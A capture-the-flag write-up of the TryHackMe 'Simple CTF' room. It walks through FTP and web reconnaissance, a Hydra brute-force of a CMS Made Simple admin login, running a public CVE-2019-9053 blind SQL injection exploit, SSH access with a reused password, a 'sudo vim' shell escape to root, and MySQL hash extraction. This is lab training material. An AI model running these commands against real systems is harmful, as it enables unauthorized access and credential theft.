

# [Simple CTF — TryHackMe](https://tryhackme.com/room/easyctf)

**Difficulty:** Easy

**Category:** Web exploitation, brute-force, privilege escalation

**Target OS:** Ubuntu (16.04-based)

## Overview

Simple CTF is a beginner-friendly room that chains together several classic misconfigurations: an anonymously readable FTP share, a weak/reused password crackable via brute-force, an outdated CMS with a known CVE, and a passwordless `sudo` rule on `vim`. The intended path is FTP recon → credential brute-force → web/SSH access → `sudo` privilege escalation, with a CMS-layer SQL injection (CVE-2019-9053) available as a parallel route to the same admin credential.

This writeup covers the full path I took, including a couple of dead ends I investigated and ruled out during post-exploitation — worth documenting alongside what actually worked.

---

## 1. Reconnaissance

### Port scan

I started by inspecting the machine with nmap, scanning all ports to identify any hidden services on uncommon ports.

```bash
nmap -sV -sC -sS -p- -T5 -oN port_scan.txt <target>
```

<details>
<summary>Full output (also in <code>evidence/port_scan.txt</code>)</summary>

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.131.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

</details>

The nmap scan exposed 3 services:

- FTP server on port 21
- HTTP server on port 80
- SSH server, but weirdly enough on port 2222, not the default port 22 — meaning it could be unintentionally exposed and shouldn't be there in the first place.

The scan also provided extra info:

- Anonymous FTP login allowed
- `robots.txt` disallows `/openemr-5_0_1_3` — a named application path, worth visiting directly since `robots.txt` entries are effectively a map of "don't look here" that's worth looking at anyway.

When I tried to access `/openemr-5_0_1_3`, I got a `404 Not Found`.

### FTP enumeration

I started with FTP enumeration; since anonymous login is allowed, I could access the server and start listing and viewing any interesting directories/files.

Anonymous login confirmed manually over telnet (see the [FTP appendix](#appendix-manual-ftp-walkthrough) below for the full command sequence, since this room was also useful for practicing raw FTP protocol interaction):

```bash
USER anonymous
230 Login successful.
```

Listing the anonymous share (via `PASV` + a second data connection) turned up:

```bash
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
```

Inside `pub/`, a file named `ForMitch.txt`:

```
Dammit man... you're the worst dev I've seen. You set the same pass for the system user,
and the password is so weak... I cracked it in seconds. Gosh... what a mess!
```

This is a strong find — it gives an idea about the target user and potential usernames ("for a person named Mitch, it's plausible to assume a username such as `Mitch`, `mitch`, `mitch123`, `mitch_something`, so we can get some kind of idea about the username"), and since the file explicitly says the password is reused and weak enough to crack "in seconds," it points directly at a dictionary attack as the next step. Full text saved in `evidence/ForMitch.txt`.

### Web enumeration

Nothing else useful turned up on FTP, so I moved on to the web service.

Directory brute-force against the web root:

```bash
gobuster dir -u http://<target> -w SecLists/Discovery/Web-Content/common.txt -x php,html,txt,bak,js
```

Key finding: **`/simple`** — a directory not linked from the default Apache page, returning a 200 with real content. Full output in `evidence/dir_scan.txt`.

Re-ran gobuster scoped to `/simple`:

```bash
gobuster dir -u http://<target>/simple -w SecLists/Discovery/Web-Content/common.txt -x php,html,txt,bak,js
```

This revealed the structure of a **CMS Made Simple** install:

```bash
/admin                (Status: 200) [Size: 4658]
/assets               (Status: 200) [Size: 2152]
/config.php           (Status: 200) [Size: 0]
/doc                  (Status: 200) [Size: 24]
/index.php            (Status: 200) [Size: 20073]
/install.php          (Status: 200) [Size: 7875]
/lib                  (Status: 200) [Size: 24]
/modules              (Status: 200) [Size: 3404]
/tmp                  (Status: 200) [Size: 1154]
/uploads              (Status: 200) [Size: 0]
```

`/admin` → an admin login portal at `/simple/admin/login.php`. Full output in `evidence/dir_scan_simple.txt`.

I visited `/tmp`, `/modules`, `/lib`, and `/uploads` — they listed their contents (mostly further directories), but any subdirectory I tried returned a blank page. Testing with curl gave the same result, and revealed why: several returned a static placeholder comment instead of real content:

```bash
curl -sv http://10.114.187.219/simple/modules/Navigator/
*   Trying 10.114.187.219:80...
* Connected to 10.114.187.219 (10.114.187.219) port 80
> GET /simple/modules/Navigator/ HTTP/1.1
> Host: 10.114.187.219
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Thu, 13 Aug 2026 09:27:42 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Mon, 19 Aug 2019 14:52:37 GMT
< ETag: "18-590797daf4097"
< Accept-Ranges: bytes
< Content-Length: 24
< Content-Type: text/html
<
* Connection #0 to host 10.114.187.219 left intact
<!-- DUMMY HTML FILE -->
```

These were placeholder/stub files with no real content or functionality — ruled out as a lead.

### HTTP method check

Checked which HTTP methods the server allows, in case `PUT` was enabled (which would allow direct file upload without going through the app):

```bash
curl -X OPTIONS http://<target>/ -i
```

```
Allow: OPTIONS, GET, HEAD, POST
```

Only the default methods — no `PUT`/`DELETE`, so this wasn't a viable path. Ruled out. Same result when tested against `/uploads`. Full output in `evidence/http_options.txt`.

---

## 2. Initial Access

### Identifying the CMS

The `/simple` structure (`admin/`, `modules/`, `lib/`, the `install.php` file) is a strong fingerprint for **CMS Made Simple**. This is the detail I initially missed live — I didn't check the page footer or install artifacts for a version banner before moving on, which cost me some time later when trying to explain the SQL injection finding.

Visiting `/simple` and scrolling to the footer reveals the CMS version directly:



**CMS Made Simple 2.2.8** confirmed.

### Credential brute-force

With the `ForMitch.txt` hint pointing at a weak password for a user likely named Mitch, brute-forced the admin login form with Hydra:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -t 64 <target> http-post-form \
  "/simple/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"
```

`users.txt` included case variants (`mitch`, `Mitch`, `admin`) since the login form's exact expected casing wasn't confirmed yet and Hydra brute-forcing is case-sensitive. `admin` was included too, since Mitch's actual privilege level wasn't known yet, and to cover any unchanged defaults. The `F=` condition string was taken from the literal failed-login response text, found by testing one bad login manually first — Hydra's `http-post-form` module requires this to distinguish success from failure and does nothing useful without it.

**Result:**

```
[80][http-post-form] host: <target>   login: mitch   password: [REDACTED]
```

Full command and result in `evidence/hydra_bruteforce.txt`.

This single credential pair (`mitch:[REDACTED]`) worked for the CMS admin panel. Success!!

### Alternate path: SQL injection (CVE-2019-9053)

Once the CMS was fingerprinted as **CMS Made Simple 2.2.8**, the version cross-references directly to **CVE-2019-9053**: an unauthenticated, blind time-based SQL injection in the News module's `m1_idlist` parameter, affecting CMS Made Simple ≤ 2.2.9. This exists as a parallel route to the same admin credentials — via extracting the `cms_users` table directly — without needing the brute-force step at all.

Worth calling out explicitly: this is a **blind** SQLi, meaning there's no visible error text or query output on the page — the only signal is response *timing* (e.g. appending `AND SLEEP(5)` and measuring the delay). This is a meaningfully different detection method than error-based SQLi, and it's why an initial scan with `nmap --script http-sql-injection` (which only checks for visible error strings) came back empty — the script simply isn't built to catch this class of vulnerability.

**Manual reproduction:** I attempted to confirm the injection with hand-crafted `curl` timing tests against several parameter/payload variations, but wasn't able to reliably reproduce a consistent delay — likely due to uncertainty over the exact live parameter name and required payload syntax for this specific page template, rather than the vulnerability being absent.

**PoC reproduction:** I then ran the public exploit for CVE-2019-9053 (Exploit-DB 46635). The copy searchsploit provides is Python 2 and unmaintained:

```
Exploit: CMS Made Simple < 2.2.10 - SQL Injection
    URL: https://www.exploit-db.com/exploits/46635
    Path: /snap/searchsploit/566/opt/exploitdb/exploits/php/webapps/46635.py
  Codes: CVE-2019-9053
Verified: False
```

so I used a maintained Python 3 fork instead:

```bash
git clone https://github.com/Dh4nuJ4/SimpleCTF-UpdatedExploit.git
```

On a first run, the script returned truncated/corrupted values for every field:

```
[+] Salt for password found: 1dac0d923E
[+] Username found: mi2
[+] Email found: admin@admin.copQ
[+] Password found: 0c01f4468bu
```

Comparing against the ground-truth values recovered later via direct database access (see [Post-Exploitation](#4-post-exploitation)):

| Field | 1st run output | Actual value | Match |
|---|---|---|---|
| Salt | `1dac0d923E` | `[REDACTED]` | Partial |
| Username | `mi2` | `mitch` | Partial |
| Email | `admin@admin.copQ` | `admin@admin.com` | Partial |
| Password hash | `0c01f4468bu` | `0c01f4468bd75d7a84c7eb73846e8d96` | Partial |

Each field's leading characters matched the true values before the extraction corrupted — likely due to the script's fixed timing threshold being too tight relative to this network's round-trip latency, causing an occasional false character match that derailed the rest of that field's extraction.

On a subsequent run, without any code changes, the same script correctly extracted three of the four fields in full:

```
[+] Salt for password found: [REDACTED]
[+] Username found: mitch
[+] Email found: adminAF
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96@
```

| Field | 2nd run output | Actual value | Match |
|---|---|---|---|
| Salt | `[REDACTED]` | `[REDACTED]` | Exact |
| Username | `mitch` | `mitch` | Exact |
| Email | `adminAF` | `admin@admin.com` | Partial |
| Password hash | `0c01f4468bd75d7a84c7eb73846e8d96` | `0c01f4468bd75d7a84c7eb73846e8d96` | Exact |

The improvement between runs, with no change to the script itself, supports the timing-sensitivity explanation over a fundamentally broken exploit — and three of four fields extracting with full, exact accuracy via the blind time-based channel alone is sufficient to confirm the injection is real and independently exploitable, without relying on the database access gained later in the engagement.

### Gaining access

With `mitch:[REDACTED]` confirmed working, I logged into the CMS admin panel and sifted through the available pages. I found a File Manager module, investigated it for file upload vulnerabilities, but found nothing exploitable. After further investigation turned up nothing else of value, I moved to the third service — and the most interesting one — SSH on port 2222.

Since `ForMitch.txt` hinted at reused credentials, I tried the same pair over SSH:

```
ssh mitch@<target> -p 2222
```

Success!! — a standard user shell as `mitch`. User flag retrieved from the home directory (`user.txt`).

---

## 3. Privilege Escalation

Checked sudo rights for the current user:

```
sudo -l
```

Result: `mitch` can run `/usr/bin/vim` as root, with `NOPASSWD`.

`vim` is a well-documented [GTFOBins](https://gtfobins.github.io/gtfobins/vim/) entry for both `sudo` and SUID contexts — its shell escape spawns a shell that inherits the privileges of the process that launched vim. So running `sudo vim` with no password prompt, then spawning a shell from inside it, gives a shell that inherits vim's own privilege level — and since vim itself was launched via `sudo`, that privilege is `root`.

Escalation sequence:

```
sudo vim
```

Then, from inside vim:

```
:!/bin/bash
```

Root flag retrieved from `/root/root.txt`.

---

## 4. Post-Exploitation

Rather than stopping at root, I spent additional time enumerating the box after privilege escalation — partly to look for anything else of value, and partly out of curiosity about how the room was actually built.

### Second user's home directory

With root access, checked the second system user found earlier (`sunbath`, not part of the intended path) for anything left behind:

- No SSH keys (`~/.ssh` empty/absent for both users)
- `.bash_history` present and extensive — see below

### Box build history

`sunbath`'s `.bash_history` turned out to be the **room author's own setup log** — not part of the attack chain, but useful context confirming the intended path: installing Apache/MySQL/vsftpd, creating the `mitch` user, writing `ForMitch.txt`, and configuring the `sudo` rule on `vim` (`visudo`, `chmod g+s /usr/bin/vim`) by hand. Kept in `evidence/box_build_history.txt`, clearly labeled as background rather than exploitation.

### MySQL enumeration

The build history revealed MySQL was accessible as `root` with no further auth needed (`mysql -u root -p`, credentials already known from the shell session). Checked the actual privilege level directly rather than assuming:

```sql
SHOW GRANTS FOR CURRENT_USER();
```

```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' WITH GRANT OPTION
GRANT PROXY ON ''@'' TO 'root'@'localhost' WITH GRANT OPTION
```

This confirms full read/write/DDL access across **every** database on the server, not just the CMS's — sufficient to modify application data, tamper with `cms_adminlog` to cover tracks, or create arbitrary new database users via the `GRANT OPTION`.

Enumerated the CMS's own database (`bigtree`) and found the `cms_users` table holding the admin account's actual password hash — a **separate credential** from the system/SSH password already recovered via Hydra:

```
+---------+----------+----------------------------------+
| user_id | username | password                         |
+---------+----------+----------------------------------+
|       1 | mitch    | 0c01f4468bd75d7a84c7eb73846e8d96 |
+---------+----------+----------------------------------+
```

Full session in `evidence/mysql_enum.txt`.

### Cracking the CMS admin hash

Attempted to crack the extracted hash with both `john` and `hashcat` against `rockyou.txt` — both exhausted the full 14.3M-entry wordlist with **zero** matches. This turned out to be because CMS Made Simple salts its password hashes (`MD5(salt + password)`), so a plain dictionary attack against the raw hash can't succeed without also supplying the salt.

A lookup against `hashes.com`'s precomputed hash database (rather than a fresh wordlist attack) returned a match:

```
0c01f4468bd75d7a84c7eb73846e8d96:[REDACTED]
```

Parsing this as `salt + password` gives a password of **`[REDACTED]`** — the exact same password already recovered via Hydra. This confirms the room's intended finding explicitly: **the same weak password was reused across the system/SSH account and the CMS application account**, exactly as `ForMitch.txt` warned. Full crack attempts and reasoning in `evidence/hash_cracking.txt`.

### Ruled-out vectors

For completeness, a few other angles were checked and ruled out during this session:

| Vector | Result |
|---|---|
| File upload page | Accepts uploads but no exploitable misconfiguration found (tested manually) |
| `PUT`/`DELETE` HTTP methods | Not enabled — `OPTIONS` shows only `GET,HEAD,POST` |
| `cms_additional_users` table | Empty — no other CMS accounts to find |
| SSH keys (either user) | None present |

---

## Appendix: Manual FTP Walkthrough

For practice, the anonymous FTP session was also carried out manually over raw `telnet` rather than the `ftp` client, to build a first-principles understanding of the protocol — including testing both active and passive data-connection modes.

**Login:**
```bash
telnet <target> 21
USER anonymous
230 Login successful.
```

**Passive mode (PASV)** — used for the live directory listing above:
```bash
PASV
227 Entering Passive Mode (a,b,c,d,p1,p2)
```
The response encodes the data-channel IP and port: IP from the first four octets, port from `p1*256 + p2`. A second `telnet` session to that port (opened *before* issuing `LIST` on the control channel) is required, since FTP splits control and data across two separate TCP connections. In passive mode, the *server* opens the listening socket and the client connects to it — which is why passive mode works reliably through NAT/firewalls, since the client is always the one initiating outbound.

**Active mode (PORT)** — tested separately for comparison, not part of the live attack chain:
```bash
PORT h1,h2,h3,h4,p1,p2
```
Here the roles reverse: the *client* opens a listening socket first (e.g. `nc -lvp 4444`) and tells the server, via the `PORT` command, to connect back to it — IP and port encoded the same way as `PASV`'s response (four IP octets, then `p1*256 + p2` for the port). This only works if the server can actually reach the client's IP/port directly, which is why active mode is largely obsolete on the modern internet (blocked by client-side NAT/firewalls in most real-world setups) but works fine on a flat lab subnet like this one.

Practically confirming both modes by hand — rather than just reading about the difference — made the reason passive mode became the default much more concrete: it's not an arbitrary convention, it's a direct consequence of which side (client vs. server) is doing the listening.